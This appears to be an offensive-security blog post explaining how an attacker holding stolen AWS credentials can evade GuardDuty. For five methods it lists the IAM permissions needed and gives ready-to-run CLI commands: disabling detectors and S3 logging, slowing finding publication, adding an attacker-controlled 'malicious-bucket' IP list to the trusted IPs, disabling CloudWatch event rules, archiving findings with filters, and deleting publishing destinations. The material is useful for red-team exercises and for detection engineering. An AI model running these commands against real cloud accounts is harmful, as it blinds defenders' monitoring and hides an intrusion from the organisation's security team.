 ```yaml
---
layout: post
title: AWS Guard-OffDuty
---
```


Let's assume that we have found and  successfully validated some AWS credentials during an engagement. Then it might be a good idea to modify the threat detection services like GuardDuty to reduce the likelihood of triggering an alert. Therefore we need to modify the GuardDuty configuration to stay cloaked. Deleting or modifying key attributes of GuardDuty might have a less likely chance to raise alerts. The actions we can do depend on the compromised permissions available. The GuardDuty architecture and the presence of higher level controls like [Service Control Policies](https://docs.aws.amazon.com/organizations/latest/userguide/orgs_manage_policies_scps.html) can give us options. 

<p align="center">
<img width=300 src="/images/mr-bean-guard.gif">
</p>


GuardDuty itself uses a delegated admin or invite model but features like detector configurations and IP Trust lists are usually centrally managed. That pivot point can be used, but usually can only be modified in the GuardDuty administrator account. If this pattern isn't used, these features can be modified in the account that GuardDuty is running in. 

Let's check our options:

## Option1 - Patching the Detector
We can modify an existing GuardDuty detector in the account with the goal to remove log sources or lessen its effectiveness.

Configuration changes may include a combination of:

- Disabling the detector  
- Removing Kubernetes and S3 as Data Sources. This removes all available [S3 Protection](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_finding-types-s3.html) and/or [Kubernetes alerts](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_finding-types-kubernetes.html)  
- Increasing the event update frequency to 6 hours instead of the casual 15 minutes. This give some more time to dig around in the account and stay cloaked. To manage this we have to check the Required permissions to execute:

* `guardduty:ListDetectors`
* `guardduty:UpdateDetector`

Tiny cheat sheet of the CLI commands:

```bash
# Disabling the detector
aws guardduty update-detector \
    --detector-id 12abc34d567e8fa901bc2d34eexample \
    --no-enable 

# Removing s3 as a log source
aws guardduty update-detector \
    --detector-id 12abc34d567e8fa901bc2d34eexample \
    --data-sources S3Logs={Enable=false}

# Increase finding update time to 6 hours
aws guardduty update-detector \
    --detector-id 12abc34d567e8fa901bc2d34eexample \
    --finding-publishing-frequency SIX_HOURS
```

---
## Option2 - Patching Trusted IP Lists
We could create or update GuardDuty's [Trusted IP list](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_upload-lists.html) - including their own IP on the list. Any IPs in a trusted IP list will not have any Cloudtrail or VPC flow log alerts raised against them.

*DNS findings are exempt from the Trusted IP list.*

**Required permissions to execute:**

* `guardduty:ListDetectors`
* `guardduty:ListIPSet`
* `iam:PutRolePolicy`
* `guardduty:CreateIPSet (can be used to create a new list)`
* `guardduty:UpdateIPSet (update an existing list)`

Depending on the level of stealth required the file can be uploaded to an S3 bucket:
- Either in the target account
- or an account controlled by the attacker

Tiny cheat sheet of the CLI commands:

```bash
aws guardduty update-ip-set \
    --detector-id 12abc34d567e8fa901bc2d34eexample \
    --ip-set-id 24adjigdk34290840348exampleiplist \
    --location https://malicious-bucket.s3-us-east-1.amazonaws.com/customiplist.csv \
    --activate
```

## Option 3 - Modify Cloudwatch events rule
GuardDuty populates its findings to Cloudwatch-Events every 5 minutes. Modifying the Event pattern or Targets for an event may reduce GuardDuty's ability to alert and trigger auto-remediation of a findings. Especially where the remediation is triggered in a member account as GuardDuty administrator protections do not extend to the Cloudwatch events in one of the member accounts.

But be aware that:

> In a delegated or invitational admin GuardDuty architecture, cloudwatch events will still be created in the admin account.

**Required permissions to execute:**

* `gevent:ListRules`
* `gevent:ListTargetsByRule`
* `gevent:PutRule`
* `gevent:RemoveTargets`

Tiny cheat sheet of the CLI commands:
```bash
# Disable GuardDuty Cloudwatch Event
aws events put-rule --name guardduty-event \
--event-pattern "{\"source\":[\"aws.guardduty\"]}" \
--state DISABLED

# Modify Event Pattern
aws events put-rule --name guardduty-event \
--event-pattern '{"source": ["aws.somethingthatdoesntexist"]}'

# Remove Event Targets
aws events remove-targets --name guardduty-event \
--ids "GuardDutyTarget"
```

---
## Option 4 - Create Supression Rules
Newly create GuardDuty findings can be automatically archived via [Suppression Rules](https://docs.aws.amazon.com/guardduty/latest/ug/findings_suppression-rule.html). We can also use [filters](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_filter-findings.html) to automatically archive findings before they are fresh generated. 

**Required permissions to execute:**
* `guardduty:CreateFilter`

Tiny cheat sheet of the CLI commands:

```bash
aws  guardduty create-filter --action ARCHIVE \
                             --detector-id 123456 \
                             --name fancyfiltername \
                             --finding-criteria file://criteria.json
```

Filters can be created using the [CreateFilter API](https://docs.aws.amazon.com/guardduty/latest/APIReference/API_CreateFilter.html).

---
## Option 5 - Delete Publishing Destination
We could disable alerting simply by [deleting the destination](https://docs.aws.amazon.com/cli/latest/reference/guardduty/delete-publishing-destination.html) of alerts.

**Required permissions to execute:**

* `guardduty:DeletePublishingDestination`

Tiny cheat sheet of the CLI commands:

```bash
aws guardduty delete-publishing-destination --detector-id abc123 --destination-id def456
```
